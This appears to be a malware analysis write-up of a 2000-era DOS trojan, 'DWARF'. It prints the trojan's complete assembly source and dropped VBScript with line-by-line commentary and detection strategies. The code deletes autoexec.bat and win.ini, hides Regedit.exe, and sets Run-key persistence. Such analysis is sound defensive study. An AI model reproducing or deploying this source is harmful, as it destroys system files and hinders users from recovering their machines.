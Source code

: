 
**Malware Analysis: DWARF259 - A Time-Triggered File Dropper and System Disruptor**

This assembly code creates two files: a VBScript (`Dwarf.vbs`) and a copy of itself (`Evil.com`). The malware's destructive payload is triggered on a specific date (September 25th). We will break down the code section by section.

**1. Initial Jump (TOUT_DEBUT)**

```assembly
TOUT_DEBUT:   jmp FILE1

```

-   **`jmp FILE1`**: This immediately jumps to the `FILE1` label, skipping the destructive payload section initially. This is a common technique to avoid immediate detection and to allow the malware to install itself before triggering its main functionality.

**2. Date Check and Destructive Payload (VERIFICATION to FIN_VIRUS)**

```assembly
VERIFICATION:   mov ah,2Ah
                int 21h
                cmp dh,9
                jnz FIN_VIRUS
                cmp dl,25           ;25 SEPTEMBRE ?
                jnz FIN_VIRUS       ;NON : FIN DU TROJAN
AFFICHE:		mov ah,9
				lea dx,MSG
				int 21h
DISQUE: 		mov ah,41h
                mov dx,offset AUTOEXEC
                int 21h             ;EFFACE AUTOEXEC.BAT
				mov dx,offset WININI
                int 21h             ;EFFACE WIN.INI
				mov ah,56h
                mov dx,offset REG       ;RENOMME REGEDIT.EXE
                mov di,offset CORBEILLE ;EN DWARF.AZE
				int 21h
FIN_VIRUS:      mov ah,4Ch
                int 21h

```

-   **`mov ah, 2Ah` / `int 21h`**: This gets the current system date. `int 21h` with `ah=2Ah` returns the year in `CX`, the month in `DH`, and the day of the month in `DL`.
-   **`cmp dh, 9` / `jnz FIN_VIRUS`**: Checks if the month (`DH`) is September (9). If it's not September, the code jumps to `FIN_VIRUS`, bypassing the destructive actions.
-   **`cmp dl, 25` / `jnz FIN_VIRUS`**: Checks if the day of the month (`DL`) is 25. If it's not the 25th, the code jumps to `FIN_VIRUS`.
-   **`AFFICHE`**: If the date _is_ September 25th, this section is executed.
    -   `mov ah, 9` / `lea dx, MSG` / `int 21h`: Displays a taunting message (`MSG`) to the user, indicating the malware has activated.
-   **`DISQUE`:** This is where the destructive payload is located.
    -   **`mov ah, 41h` / `mov dx, offset AUTOEXEC` / `int 21h`**: Deletes `C:\autoexec.bat`. `int 21h` with `ah=41h` is the DOS function to delete a file.
    -   **`mov dx, offset WININI` / `int 21h`**: Deletes `C:\WINDOWS\Win.ini`. This file, while less critical in later Windows versions, was essential in older systems (Windows 95/98) for system configuration. Deleting it could cause significant system instability.
    -   **`mov ah, 56h` / `mov dx, offset REG` / `mov di, offset CORBEILLE` / `int 21h`**: Renames `C:\WINDOWS\Regedit.exe` to `C:\RECYCLED\dwarf.aze`. `int 21h` with `ah=56h` is the DOS function to rename a file. This effectively disables the Registry Editor, making it much harder for the user to remove the malware's persistence mechanism (which we'll see later). Moving it to the Recycle Bin ("RECYCLED" - the name can be different depending of the system language) is an attempt to hide the file.
-   **`FIN_VIRUS`**:
    -   `mov ah, 4Ch` / `int 21h`: Terminates the currently running instance of the malware. _Important Note:_ This termination only applies to this _instance_. The persistence mechanism (added by the VBScript) will still cause the malware to run again on the next reboot.

**3. Data Definitions for the Payload**

```assembly
MSG     db 7,7,7,'TROJAN.DWARF par PandaKiller (c)2000'
        db 10,10,13,'BOOM! BOOM! BOOM! BOOM! BOOM! BOOM!'
        db 10,13,'   ÛÛÛ  Û    Û  ÛÛ  ÛÛÛ   ÛÛÛÛ'
        db 10,13,'   Û  Û Û    Û Û  Û Û  Û Û    '
        db 10,13,'   Û  Û Û    Û ÛÛÛÛ ÛÛÛ   ÛÛÛ '
        db 10,13,'   Û  Û Û Û  Û Û  Û Û Û   Û    '
        db 10,13,'   ÛÛÛ   Û  Û  Û  Û Û  Û  Û    $'

WININI		db 'C:\WINDOWS\Win.ini',0
AUTOEXEC	db 'C:\autoexec.bat',0
REG		db 'C:\WINDOWS\Regedit.exe',0
CORBEILLE 	db 'C:\RECYCLED\dwarf.aze',0
progl2 equ $-VERIFICATION

```

-   **`MSG`**: The message displayed on September 25th.
-   **`WININI`, `AUTOEXEC`, `REG`, `CORBEILLE`**: These are the file paths used in the destructive payload. They are null-terminated strings.
-   `progl2 equ $-VERIFICATION`: Calculates the size of the second program that will be written to a file.

**4. Creating the First File (FILE1)**

```assembly
FILE1:      mov ah,3Ch
            xor cx,cx
            mov dx,offset NOM1
            int 21h             ;CREATION DU 1ER FICHIER
            xchg ax,bx
            mov ah,40h
            mov cx,progl1       ;LONGUEUR DU PROGRAMME
            mov dx,offset prog1 ;DEBUT DU PROGRAMME
            int 21h             ;ECRITURE
            mov ah,3Eh
            int 21h             ;FERMETURE

```

-   This section is very similar to the file creation in the previous malware.
-   **`mov ah, 3Ch` / `xor cx, cx` / `mov dx, offset NOM1` / `int 21h`**: Creates a file named `C:\Dwarf.vbs` (defined by `NOM1`).
-   **`xchg ax, bx`**: Swaps the file handle (returned in `AX`) to `BX`.
-   **`mov ah, 40h` / `mov cx, progl1` / `mov dx, offset prog1` / `int 21h`**: Writes the VBScript code (defined at `prog1`) to the file. `progl1` holds the length of the VBScript code.
-   **`mov ah, 3Eh` / `int 21h`**: Closes the file.

**5. Creating the Second File (FILE2)**

```assembly
FILE2:      mov ah,3Ch
            xor cx,cx
            mov dx,offset NOM2
            int 21h             ;CREATION DU 2ND FICHIER
            xchg ax,bx
            mov ah,40h
            mov cx,progl2       ;LONGUEUR DU PROGRAMME
            lea dx,VERIFICATION ;DEBUT DU PROGRAMME
            int 21h             ;ECRITURE
            mov ah,3Eh
            int 21h             ;FERMETURE

```

-   This section creates the second file, which is a copy of the malware itself.
-   **`mov ah, 3Ch` / `xor cx, cx` / `mov dx, offset NOM2` / `int 21h`**: Creates a file named `C:\WINDOWS\Evil.com` (defined by `NOM2`). This places a copy of the malware in the `WINDOWS` directory.
-   **`xchg ax, bx`**: Swaps the file handle.
-   **`mov ah, 40h` / `mov cx, progl2` / `lea dx, VERIFICATION` / `int 21h`**: This is the key difference. It writes a copy of the _malware's code itself_ (from the `VERIFICATION` label to the end of that section, with length `progl2`) to `Evil.com`. This creates a self-replicating component.
-   **`mov ah, 3Eh` / `int 21h`**: Closes the file.

**6. Program Termination (FIN)**

```assembly
FIN:         mov ah,4Ch
             int 21h

```

-   `mov ah, 4Ch` / `int 21h`: Terminates the program.

**7. Data Definitions for File Creation and VBScript**

```assembly
NOM1    db 'c:\Dwarf.vbs',0
NOM2    db 'c:\WINDOWS\Evil.com',0
prog1   db 'rem DwArF.vbs by Panda (c)2000',0Dh,0Ah
        db 'msgbox "C''EST PARTI",vbcritical',0Dh,0Ah
        db 'Dim W',0Dh,0Ah
        db 'Set W = Wscript.CreateObject("WScript.Shell")',0Dh,0Ah
        db 'W.Regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows'
        db '\CurrentVersion\Run\DwArF", "C:\WINDOWS\Evil.com"'
progl1  equ $-prog1
end TOUT_DEBUT

```

-   **`NOM1`**: Filename for the VBScript: `c:\Dwarf.vbs`.
-   **`NOM2`**: Filename for the copy of the malware: `c:\WINDOWS\Evil.com`.
-   **`prog1`**: The VBScript code that will be written to `Dwarf.vbs`.
-   **`progl1 equ $-prog1`**: Calculates the length of the VBScript code.

**8. The Dropped VBScript (Persistence)**

Let's examine the VBScript code written to `c:\Dwarf.vbs`:

```VBScript
rem DwArF.vbs by Panda (c)2000
msgbox "C'EST PARTI",vbcritical
Dim W
Set W = Wscript.CreateObject("WScript.Shell")
W.Regwrite "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\DwArF", "C:\WINDOWS\Evil.com"

```

-   **`rem ...`**: Comment.
-   **`msgbox "C'EST PARTI",vbcritical`**: Displays a message box with the text "C'EST PARTI" (It's on!) and a critical icon. This is a user-visible indication that the malware is active.
-   **`Dim W` / `Set W = ...`**: Creates a `WScript.Shell` object (same as the previous malware).
-   **`W.Regwrite ...`**: This is the crucial persistence mechanism. It writes to the registry:
    -   **`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\DwArF`**: Creates (or modifies) a registry entry under the `Run` key, which ensures that the specified program runs on startup. The value name is `DwArF`.
    -   **`"C:\WINDOWS\Evil.com"`**: This is the _value_ associated with `DwArF`. It specifies that `C:\WINDOWS\Evil.com` (the copy of the malware) should be executed on every system startup.

**Summary: Impact and Detection**

DWARF259 is a more sophisticated piece of malware than the first example. Here's a summary:

-   **Dropper:** It drops a VBScript (`Dwarf.vbs`) and a copy of itself (`Evil.com`).
-   **Persistence:** The VBScript ensures that `Evil.com` runs on every startup by adding a registry entry to the `Run` key.
-   **Time-Triggered Payload:** On September 25th, the malware:
    -   Displays a message.
    -   Deletes `autoexec.bat` and `win.ini` (potentially causing significant system instability).
    -   Renames `Regedit.exe` to `dwarf.aze` in the Recycle Bin, hindering the user's ability to remove the malware.
-   **Self-Replication:** The malware copies itself to `C:\WINDOWS\Evil.com`, which is then executed on each reboot.

**Detection Strategies:**

1.  **Signature-Based:** Antivirus can detect the specific assembly code patterns or the VBScript content.
2.  **Heuristic:** Behavioral analysis can detect:
    -   File creation in `C:\` and `C:\WINDOWS`.
    -   Modification of the `Run` registry key.
    -   Deletion of `autoexec.bat` and `win.ini`.
    -   Renaming of `Regedit.exe`.
    -   The message box displayed by the VBScript.
3.  **File System Monitoring:** Monitor for the creation of `Dwarf.vbs` and `Evil.com`.
4.  **Registry Monitoring:** Monitor the `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run` key for changes.
5.  **Date-Based Detection:** While not a primary detection method, security tools could potentially flag the date check (September 25th) as suspicious.
6.  **Sandboxing**: Running the assembly code will allow the creation of the files, and if the date is set accordingly, the deletion of the files.

This malware is a good example of how relatively simple assembly code can be used to create a persistent and destructive threat. The combination of a dropper, a persistence mechanism, a time-triggered payload, and self-replication makes it more dangerous than a simple virus that only performs a single action.
